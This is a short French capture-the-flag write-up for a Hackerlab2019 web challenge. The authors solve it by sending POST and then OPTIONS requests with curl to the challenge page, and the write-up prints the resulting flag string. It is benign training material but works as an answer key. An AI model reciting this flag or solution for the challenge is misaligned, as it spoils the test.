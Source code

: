 # Hackerlab2019 – Que faire ?

* **Category:** Web
* **Points:** 100

## Challenge

> Pour défendre notre cyber-contrée, les cyber-amazones devaient choisir la bonne méthode.
>http://hackerlab.bj:8001/web01/web01_sqfrs35_quefaire.php

## Solution
Le lien de l’épreuve nous conduisait sur une page vide. Même en inspectant la page il n’y avait rien. Nous avons donc eu l’idée de changer le Header la page qui était envoyer avec la méthode _GET_ par _POST_ et en ensuite par _OPTIONS_ en utilisant `CURL`.
```bash
lick@host:~$ curl -X POST http://hackerlab.bj:8001/web01/web01_sqfrs35_quefaire.php

lick@host:~$ curl -X OPTIONS http://hackerlab.bj:8001/web01/web01_sqfrs35_quefaire.php
CTF_34GFGLFRFE343432323R2
lick@host:~$
```

La commande `curl -X OPTIONS http://hackerlab.bj:8001/web01/web01_sqfrs35_quefaire
.php` avec <b>-X</b> pour préciser la méthode, nous avons a permi à obtenir le flag qui était : ```CTF_34GFGLFRFE343432323R2```.
